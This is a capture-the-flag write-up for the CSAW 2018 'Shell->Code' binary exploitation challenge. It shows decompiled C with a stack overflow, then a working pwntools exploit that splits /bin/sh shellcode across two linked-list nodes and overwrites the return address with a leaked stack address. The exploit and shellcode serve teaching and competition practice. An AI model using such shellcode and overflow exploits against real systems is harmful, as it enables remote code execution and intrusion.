 ```yaml
---
author: "Laluka"
title: "CSAW - Shell->Code"
slug: "shell_code"
date: 2018-09-16
status: "original"
description: "Binary exploitation using linked lists in order to store parts of a shellcode in many places and then link their execution with jumps. "
---
```



### Description

> Linked lists are great! They let you chain pieces of data together.

> nc pwn.chal.csaw.io 9005

You can download the ELF file : [here](/writeups/csaw_2018/shell_code/shellpointcode)


### TL;DR

This challenge uses linked list and leaks an address, the stack is executable,
a short shellcode and a relative jump will do the trick !


### Methology

Step 1 : Use IDA to decompile the program, find the two useful functions that
fills the linked list and expose the buffer overflow.

```c
__int64 nononode()
{
  char v1; // [rsp+0h] [rbp-40h]
  __int64 v2; // [rsp+8h] [rbp-38h]
  char *v3; // [rsp+20h] [rbp-20h]
  __int64 v4; // [rsp+28h] [rbp-18h]

  v3 = &v1;
  puts("(15 bytes) Text for node 1:  ");
  readline(&v4, 15LL);                        // <- Shellcode here
  puts("(15 bytes) Text for node 2: ");
  readline(&v2, 15LL);                        // <- Shellcode here
  puts("node1: ");
  printNode(&v3);
  return goodbye();                           // <- Overflow func here
}

int goodbye()
{
  char s; // [rsp+Dh] [rbp-3h]

  puts("What are your initials?");
  fgets(&s, 32, stdin);                       // <- Overflow here
  return printf("Thanks %s\n", &s);
}
```

Step 2 : Find a short shellcode, code the exploit, and jump in !

```python
#!/usr/bin/env python2

from pwn import *

shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb"
shellcode += "\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"
# jmp short 0x13 (rip when reaching this instruction - @second)
jmp_rip_p10 = "\xEB\x11"
offset = 11

r = remote("pwn.chal.csaw.io", 9005)
#r = process("./shellpointcode")  # local debugging
r.readuntil("node 1:  \n")
r.sendline(shellcode[15 - 2:])
r.readuntil("node 2: \n")
r.sendline(shellcode[:15 - 2] + jmp_rip_p10)
r.readline()
adr = r.readline().split(": ")[1].split("\n")[0]
print "adr", adr
adr = int(adr[2:], 16)
second = adr + 0x8          # constant offset in the stack
first = second + 0x20       # reach the 2nd buffer, constant offset in the stack
print "second", hex(second)
print "first", hex(first)
r.readuntil("\n\n")
# pause()                  # time to attach gdb and continue
r.sendline("A" * offset + p64(second))
r.interactive()
```

Step 3 : Run the exploit !

<img class="img_full" src="/writeups/csaw_2018/shell_code/run.png" alt="run" >

Pretty straight forward, I likes this challenge as it requires to find a small shellcode and permute instructions it split it in two small parts without breaking it.
